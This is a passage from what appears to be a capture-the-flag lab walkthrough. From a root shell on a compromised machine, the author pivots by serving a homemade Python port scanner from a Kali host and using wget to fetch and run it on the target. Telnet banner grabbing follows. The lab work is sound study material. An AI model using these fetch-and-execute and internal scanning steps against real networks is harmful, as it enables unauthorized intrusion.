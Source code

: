 ### Port Scanning

I developed a python port scanner to discover open ports.

```python
#!/usr/bin/env python3 

import socket

host = "192.168.56.104"

def scan(port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.settimeout(3)
        return True
    except:
        pass

for p in range(1, 65535):
    if scan(p):
        print("[+] Port {} open".format(p))
```

We start a web server with python on port 80.

```bash
root@kali:~$ python3 -m http.server 80
```

On target machine we download the port scanner, give it execution permissions and execute it.

```bash
root@straylight:/root# wget 192.168.179.1/pscan.py

root@straylight:/root# chmod +x pscan.py
chmod +x pscan.py
root@straylight:/root# ./pscan.py
./pscan.py
[+] Port 8009 open
[+] Port 8080 open
[+] Port 34483 open
root@straylight:/root#
```


### Service Enumeration

We check the banner on port 8009 with telnet but the service was not detected.

```bash
root@straylight:/root# telnet 192.168.56.104 8009
telnet 192.168.56.104 8009
Trying 192.168.56.104...
Connected to 192.168.56.104.
Escape character is '^]'.

Connection closed by foreign host.
root@straylight:/root#
```
